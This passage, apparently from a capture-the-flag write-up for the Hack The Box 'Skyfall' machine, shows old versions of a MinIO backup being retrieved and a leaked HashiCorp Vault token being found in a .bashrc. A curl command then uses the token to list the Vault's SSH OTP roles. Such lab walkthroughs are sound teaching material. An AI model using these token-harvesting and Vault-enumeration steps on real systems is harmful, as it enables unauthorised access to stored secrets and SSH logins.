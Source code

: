 ```markdown
...home_backup.tar.gz: 1.18 MiB / 1.18 MiB ━━━━━━━━━━━━━━━━━━━━━━━━ 796.65 KiB/s 1s

> mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz ./home_backup.v2.tar.gz
...home_backup.tar.gz: 2.64 KiB / 2.64 KiB ━━━━━━━━━━━━━━━━━━━━━━━━ 7.21 KiB/s 0s

> mc cp --vid 25835695-5e73-4c13-82f7-30fd2da2cf61 myminio/askyy/home_backup.tar.gz ./home_backup.v1.tar.gz
...home_backup.tar.gz: 2.48 KiB / 2.48 KiB ━━━━━━━━━━━━━━━━━━━━━━━━ 6.29 KiB/s 0s
```
Unpack and inspect the contents of the V2 file `home_backup.v2.tar.gz --vid 2b75346d-2a47-4203-ab09-3c9f878466b8`, there is a `.bashrc` configuration file with an API address and an access token for an HashCorp Vault running on the host.
```markdown
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
```
Vault is an engine to securely store passwords, certificates, encryption keys, etc. (https://developer.hashicorp.com/vault).<br>
<br>
Having disclosed the API address and the token, we are in a position to get access to the secrets stored in the Vault, including SSH secrets and one-time passwords (OTP), as indicated in the SSH part of the documentation: https://developer.hashicorp.com/vault/api-docs/secret/ssh<br>
<br>
Vault creates an OTP for each SSH authentication attempt instead of keeping a fixed password for each user. Every time a client wants to SSH into the host, he needs to request an OTP from the Vault server which is only valid for that particular SSH login. In order to supply the OTP, the server needs username/password or a token. We do not have user credentials, but we have obtained the token from the `.bashrc` file.<br>
<br>
Following Vault documentation, first we enumerate OTP roles present in the host. We can do it using `curl`
```markdown
> curl -s -H "X-Vault-Token: hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE" -X LIST http://prd23-vault-internal.skyfall.htb/v1/ssh/roles | jq 
{
  "request_id": "d69fb2c5-11ad-cc2f-df08-341044fade07",
  "lease_id": "",
  "renewable": false,
  "lease_duration": 0,
  "data": {
    "key_info": {
      "admin_otp_key_role": {
        "key_type": "otp"
      },
      "dev_otp_key_role": {
        "key_type": "otp"
      }
    },
    "keys": [
      "admin_otp_key_role",
      "dev_otp_key_role"
    ]
  },
  "wrap_info": null,
  "warnings": null,
  "auth": null
}
```
Or from command line using the `vault` binary (download from https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip and unzip). For this, we need to export `env` variables first, then request the Vault roles.
```markdwn
```